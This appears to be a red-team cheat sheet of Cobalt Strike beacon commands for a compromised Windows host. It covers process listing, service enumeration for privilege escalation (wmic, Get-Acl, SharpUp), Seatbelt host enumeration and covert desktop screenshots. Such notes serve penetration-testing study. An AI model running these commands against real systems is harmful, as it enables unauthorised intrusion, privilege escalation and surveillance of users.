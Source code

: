 ### Cobalt Strike

#### Processes

`ps` - List running processes

```sh
beacon> ps
```

#### Services

Can be found [here](https://www.rotta.rocks/red-teaming/privilege-escalation/windows-services)

Beacon - wmic

```sh
beacon> run wmic service get name, pathname
```

beacon - Powershell

```
beacon> powershell Get-Acl -Path "C:\Program Files\Vulnerable Services" | fl
```

beacon -SharpUp

```
// Unquoated Paths
beacon> execute-assembly C:\Tools\SharpUp.exe audit UnquotedServicePath
// Weak Permissions
beacon> execute-assembly C:\Tools\SharpUp.exe audit ModifiableServices
//
```

#### SeatBelt

[Seatbelt](https://github.com/GhostPack/Seatbelt) is a C# tool that automatically enumerates a host

```sh
beacon> execute-assembly C:\Tools\Seatbelt.exe -group=system
```

#### Screenshots

`screenshot` - Takes a single screenshot of users Desktop

```sh
beacon> screenshot
```

`printscreen` - Takes a single screenshot using PrintScr method

```sh
beacon> printscreen
```

`screenwatch` - Takes a periodic screenshot of users Desktop

```sh
beacon> screenwatch
```
